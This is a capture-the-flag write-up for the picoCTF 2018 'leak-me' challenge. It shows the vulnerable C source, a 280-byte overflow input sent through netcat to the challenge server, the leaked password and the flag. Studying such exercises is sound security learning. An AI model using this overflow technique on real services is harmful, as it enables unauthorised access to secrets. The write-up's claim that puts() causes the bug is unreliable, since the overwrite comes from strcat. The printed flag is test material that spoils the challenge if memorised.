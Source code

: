 ![title](images/title.png)

![hint](images/hint.png)

Let's start by running the binary with the files under our control to see if the flag is indeed given to us under the right conditions

```
~/ctf_writeups/pico2018/binary/leak-me# echo "pass" > password.txt
~/ctf_writeups/pico2018/binary/leak-me# echo "Ima Flag" > flag.txt
~/ctf_writeups/pico2018/binary/leak-me# ./auth 
What is your name?
test
Hello test,
Please Enter the Password.
pass
Ima Flag
~/ctf_writeups/pico2018/binary/leak-me#
```

Ok, so we need to get the password from password.txt so we can use that in our input and get the flag.

Lets take a look at the source

## auth.c

Here we have our flag() function that will pring the flag for us
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}
```
Nothing too special here except the puts() function seems to be vulnerable as it does not check our input size
```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
```

If given password matches password.txt then print the file

```c  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

Lets see if we can just print a bunch of junk since puts is not checking our input size.

```
~/ctf_writeups/pico2018/binary/leak-me# python -c 'print "A"*280' | ./auth
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,pass

Incorrect Password!
```

Uhh, our password is given back to us. This means that if its not random we can simply just reload the program and give that password. Lets connect to the server and see.

Simple bash script 

```bash
#!/bin/bash

python -c 'print "A"*280' | nc 2018shell.picoctf.com 57659

```

This results in the following output on the server:

```
~/ctf_writeups/pico2018/binary/leak-me# ./connect.sh 
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_56b977

Incorrect Password!
```

Now we can reconnect manually and get our flag

<details>
	<summary>Flag</summary>

```
~/ctf_writeups/pico2018/binary/leak-me# nc 2018shell.picoctf.com 57659
What is your name?
test
Hello test,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_56b977
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_2b5cbbaa}
```
</details>
